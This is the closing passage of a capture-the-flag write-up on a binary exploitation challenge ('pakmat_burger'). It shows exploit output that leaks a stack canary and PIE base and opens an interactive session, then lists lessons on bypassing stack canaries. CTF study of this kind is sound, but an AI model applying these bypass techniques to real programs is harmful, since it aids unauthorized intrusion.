 Output
```python
$ python exploit.py 
[+] Starting local process './pakmat_burger': pid 45526
[*] main_addr: 0x55694acbe374
[*] CANARY: 0xfe2644d1c4032a00
[*] PIE: 0x55694acbd000
[*] Switching to interactive mode
flag{fake}Welcome to Pak Mat Burger!
```

## Conclusion
- I learnt how to
	- finding canary value
	- bypass stack canary 
	- find PIE base address
- progress during the competition
	- I find the secret message which is '8d7e88a8'
	- Took me ages to finish this chal :< 
	- Tq Wargames for this amazing challenge
